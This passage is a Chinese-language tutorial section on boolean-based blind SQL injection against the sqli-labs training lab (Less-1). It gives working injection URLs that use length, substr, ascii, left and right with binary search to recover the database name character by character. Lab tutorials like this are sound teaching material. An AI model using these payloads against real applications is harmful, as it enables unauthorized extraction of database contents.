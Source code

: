 ## 9 布尔盲注

> http://192.168.1.76/sqli-labs/Less-1/

当没有回显时，可以根据反馈信息的真假进行注入

### 9.1 爆库

判断数据库长度

> 通过使用 `length` 计算字段的长度判断真假（一个汉字为 3 个字符，一个数字或字母为 1 个字符）

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and (length(database()) > 10) --+
```

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and (length(database()) = 8) --+
```

> 通过二分法缩小范围，当长度为 8 时不报错
>
> 得到数据库的长度为 8 个字符

判断数据库名

> 用 `substr` 从数据库中取出第一个字符

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and ascii(substr(database(),1,1)) > 100 --+
```

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and ascii(substr(database(),1,1)) = 115 --+
```

> 用二分法判断 `ascii` 数值
>
> 第一个字符的 ascii 码为 115，字符为 s

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and ascii(substr(database(),2,1)) = 101 --+
```

> 第二个字符的 ascii 码为 101，字符为 e
>
> 最后得到数据库名为 security

`mid` 与 `substr` 效果相同

 `left` （从左侧第一个开始取三个字符）

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and ascii(left(database(),3)) > 100 --+
```

 `right` （从右侧第一个开始区三个字符）

```
http://192.168.1.76/sqli-labs/Less-1/?id=1' and ascii(right(database(),3)) > 100 --+
```
